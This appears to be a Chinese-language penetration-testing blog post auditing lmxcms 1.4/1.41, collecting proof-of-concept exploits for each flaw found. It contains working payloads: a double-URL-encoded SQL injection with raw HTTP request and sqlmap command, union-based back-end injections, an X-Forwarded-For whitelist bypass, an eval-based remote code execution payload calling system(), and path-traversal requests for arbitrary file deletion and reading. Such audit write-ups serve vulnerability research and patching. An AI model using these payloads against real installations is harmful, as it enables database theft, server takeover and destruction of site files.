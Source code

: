 ```yaml
---
title: lmxcms全漏洞poc
copyright: true
date: 2022-02-10 14:52:26
tags: 渗透测试
---
```

lmxcms源码审计
<!-- more -->
**1.4前台sql注入漏洞**
c/index/TagsAction.class.php
1.构造函数通过_POST方式获取name变量
2.p函数对数据校验，过滤关键字+addslashes转义
3.通过delHtml函数（strip_tag函数）去除标签对，进行一次url编码
4.sql拼接查询
{%asset_img 1.png%}
{%asset_img 2.png%}
{%asset_img 3.png%}
数据检查后进行了一次urldecode，可以通过两次url编码绕过addslashes函数的转义
```
poc: 'and (updatexml(1,concat(0x7e,(database()),0x7e),1)) and '1'='1

两次Urldecode：http://127.0.0.1:8081/lmxcms1.4/index.php?m=tags&a=index&name=%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%64%25%36%63%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%63%25%33%31%25%32%39%25%32%39%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%37%25%33%31%25%32%37%25%33%64%25%32%37%25%33%31
```
{%asset_img 4.png%}
lmx1.txt
```
GET /lmxcms1.4/index.php?m=tags&a=index&name=1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=jiit711t06f5plsu8fo7bbqla2; XDEBUG_SESSION=XDEBUG_ECLIPSE
Upgrade-Insecure-Requests: 1
```
sqlmap：
```
python2 sqlmap.py -r lmx1.txt --technique=E -v3 --tamper=chardoubleencode -p name --dbs
```

**1.4/1.41后台sql注入漏洞**
c/index/AcquisiAction.class.class.php
POST的参数未过滤，但后台本身可以执行sql语句（无回显），此漏洞危害较低
{%asset_img 5.png%}
```
poc：1' and updatexml(0,concat(0x7e,database()),1) and '1
```
{%asset_img 6.png%}
c/admin/AcquisAction.class.php 中 311行查询时对获取的lid参数未检验，且sql语句直接拼接，导致sql注入
{%asset_img 7.png%}
{%asset_img 8.png%}
```
Poc: http://127.0.0.1:8081/lmxcms1.4/admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,(select+1+and+(updatexml(1,concat(0x7e,(select+database()),0x7e),1))),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
{%asset_img 9.png%}
**1.4/1.41绕过ip白名单**

后台ip白名单可通过X-Forwarded-For 绕过
{%asset_img 10.png%}

**1.4/1.41后台任意代码执行**
c/admin/AcquisAction.class.php 中 318行eval执行了$temdata['data']参数，该参数的值是从lmx_cj_list数据表中查询出的array字段的值，而查询时存在sql注入导致该字段可控，从而导致任意代码执行。
{%asset_img 11.png%}
```
Poc: admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,'1;system(\'ipconfig\');',1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
{%asset_img 12.png%}
**1.4/1.41 后台任意文件删除**
c/admin/FileAction.class.php 中使用unlink方法删除文件，unlink方法调用php unlink方法，此处未对传入的路径做检查，存在任意文件删除。
{%asset_img 13.png%}

poc:
```
POST /lmxcms1.4/admin.php?m=File&a=delete HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/lmxcms1.4/admin.php?m=File&a=index&type=0
Upgrade-Insecure-Requests: 1

type=0&delImages=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87&fid%5B%5D=7#####/test.txt
```
其中test.txt在index.php 同级目录下，且可使用..进行目录穿越。
**1.4/1.41 后台任意文件读取**
c/admin/TemplateAction.class.php
{%asset_img 14.png%}
{%asset_img 15.png%}
{%asset_img 16.png%}
poc:
```
http://localhost:8081/lmxcms1.4/admin.php?m=Template&a=editfile&dir=../flag.txt
```
